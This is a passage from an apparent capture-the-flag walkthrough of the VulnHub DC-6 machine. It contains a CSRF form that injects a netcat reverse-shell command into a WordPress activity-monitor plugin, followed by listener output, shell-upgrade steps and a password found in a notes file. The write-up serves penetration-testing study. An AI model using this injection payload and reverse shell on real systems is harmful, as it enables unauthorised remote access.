 We have to modify our POST request in order to make it work.
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="google.fr| nc 192.168.1.2 4444 -e /bin/bash" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
Save the above file with .html extension and through the browser navigate into the html file by setting python http server.

![htmlfile](/assets/img/dc-6/submit.png)

Setup listener and by clicking button we get shell.
```
┌─[✗]─[hitesh@parrot]─[~/boxes/vulnhub/dc-6]
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.1.2] from (UNKNOWN) [192.168.1.7] 54436
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@dc-6:/var/www/html/wp-admin$ ^Z
[1]+  Stopped                 nc -nvlp 4444
┌─[✗]─[hitesh@parrot]─[~/boxes/vulnhub/dc-6]
└──╼ $stty raw -echo 
┌─[hitesh@parrot]─[~/boxes/vulnhub/dc-6]
└──╼ $nc -nvlp 4444

www-data@dc-6:/var/www/html/wp-admin$ export TERM=xterm
www-data@dc-6:/var/www/html/wp-admin$ 
```
# Escalating to user graham
In home directory of user mark I find out `things-to-do.txt`. This file contains password of user `graham`.
```
www-data@dc-6:/home/mark/stuff$ cat things-to-do.txt 
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
``` 
